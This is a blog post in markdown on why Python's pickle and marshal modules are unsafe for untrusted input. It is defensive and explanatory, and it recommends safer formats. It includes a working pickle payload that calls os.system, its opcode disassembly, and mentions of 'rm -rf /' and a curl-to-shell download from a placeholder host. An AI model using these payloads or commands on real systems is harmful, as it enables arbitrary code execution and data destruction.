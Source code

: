```yaml
---
layout: post
title: "Security of Python’s pickle and marshal modules"
---
```


<em class="hatnote">This is modified from my answer at Stack Overflow:
<a href="http://stackoverflow.com/q/26931919/660921">Marshal unserialization -
not secure</a>.</em>

Both the [`pickle`][pickle] and [`marshal`][marshal] modules come with a similar
big red warning:

> The pickle module is not secure against erroneous or maliciously constructed
> data. Never unpickle data received from an untrusted or unauthenticated
> source.

<!-- -->

> The marshal module is not intended to be secure against erroneous or
> maliciously constructed data. Never unmarshal data received from an untrusted
> or unauthenticated source.

Lets see why.

Marshal
-------

There are no **known** ways to exploit `marshal`. Executing code when using
`marshal.loads()` is not something I was able to do, and looking at the
`marhal.c` source code, I don't see an immediately obvious way.

So why is this warning here? [The BDFL explains][bfdl]:

> BTW the warning for marshal is legit -- the C code that unpacks marshal data
> has not been carefully analyzed against buffer overflows and so on. Remember
> the first time someone broke into a system through a malicious JPEG? The same
> could happen with marshal. Seriously.

I recommend you read the rest of the discussion; a bug is shown where
unmarshaling data causes Python to segfault; this has been fixed since Python
2.5 (this bug can, potentially, be abused to execute code). Other bugs *may*
still exist, though!

Furthermore, the `marshal` docs mention:

> This is not a general “persistence” module. [..]  The marshal module exists
> mainly to support reading and writing the “pseudo-compiled” code for Python
> modules of .pyc files.

So it's not even designed to persist data in a reliable way.

Pickle
------

You can easily execute arbitrary code with `pickle`. For example:

    >>> import pickle
    >>> pickle.loads(b"cos\nsystem\n(S'ls /'\ntR.")
    bin   data  download  home  lib64       mnt  proc  run   srv  tmp     usr      var
    boot  dev   etc       lib   lost+found  opt  root  sbin  sys  ubuntu  vagrant
    0

This is a harmless `ls /`, but can also be a less harmless `rm -rf /`, or a
`curl http://example.com/hack.sh | sh`.

You can see how this works by using the `pickletools` module:

    >>> import pickletools
    >>> pickletools.dis(b"cos\nsystem\n(S'ls /'\ntR.")
        0: c    GLOBAL     'os system'
       11: (    MARK
       12: S        STRING     'ls /'
       20: t        TUPLE      (MARK at 11)
       21: R    REDUCE
       22: .    STOP

`pickle.py` has some comments on what these opcodes mean:

    GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args
    MARK           = b'('   # push special markobject on stack
    STRING         = b'S'   # push string; NL-terminated string argument
    TUPLE          = b't'   # build tuple from topmost stack items
    REDUCE         = b'R'   # apply callable to argtuple, both on stack
    STOP           = b'.'   # every pickle ends with STOP

Most of it is self-explanatory; with `GLOBAL` you can get any function, and
with `REDUCE` you call it.

Since Python is pretty dynamic, you can also use this to monkey-patch a program
in run-time. For example, you can change the `check_password` function with one
where you upload the password to a server.

So what *is* secure?
--------------------

XML, json, MessagePack, ini files, or perhaps something else. It depends on
which format is the best in your situation.

Has this code been "carefully analyzed against buffer overflows and so on"? Who
knows. Most code hasn't, and C makes it easy to do things wrong.[^1] Even Python
code may be vulnerable, as it [may call functions implemented in C that are
vulnerable](http://www.cvedetails.com/product/18230/Python-Python.html?vendor_id=10210).

There [have been problems with Python's JSON module][json-cve]. But at the same
time, it's used a lot in public-facing apps, so it's *probably* safe. It'll
certainly be safer than `marshal`, since this was only designed for `.pyc` files
and explicitly comes with a "not audited!" warning.

This is no guarantee. Remember that [YAML security hole a few years back that
caused every Ruby on Rails application in the world to be vulnerable to
arbitrary code execution][yaml-oops]. Oops! And this wasn't even a subtle buffer
overflow, but a much more obvious problem.

You should *not* use [yaml][yaml]'s `load()` method, as this has [the same
problems as Ruby's YAML][no-yaml]. Use `safe_load()` instead.

Conclusion
----------

The warning in the `pickle` module is very much warranted (it should be stated
stronger), while the warning above the `marshal` module is more of a "*this code
was not designed with security in mind*"-type of warning, but actually
exploiting it is not as easy and relies on the hypothetical existence on unknown
bugs. Still, you're probably better off using something else.

[^1]: There really ought to be a "carefully analyzed against buffer overflows and so on" seal of trust for open source projects. Yeah, you can shelf out the big bucks and get your code analyzed by Veracode and such, but this is not feasible for open source projects. There is *some* effort to do this after the OpenSSL Heartbleed clusterfuck a few years ago in the form of the [Core Infrastructure Initiative](https://en.wikipedia.org/wiki/Core_Infrastructure_Initiative), but its scope and budget are limited (but it's young, and may gain traction in a few years).

[marshal]: https://docs.python.org/3/library/marshal.html
[pickle]: https://docs.python.org/3/library/pickle.html
[yaml]: http://pyyaml.org/
[yaml-oops]: http://www.kalzumeus.com/2013/01/31/what-the-rails-security-issue-means-for-your-startup/
[no-yaml]: http://nedbatchelder.com/blog/201302/war_is_peace.html
[json-cve]: https://access.redhat.com/security/cve/CVE-2014-4616
[bfdl]: http://grokbase.com/t/python/python-ideas/083532w3t7/an-official-complaint-regarding-the-marshal-and-pickle-documentation#20080305gvdndfl4m3f2u6cmpxvrclfcou
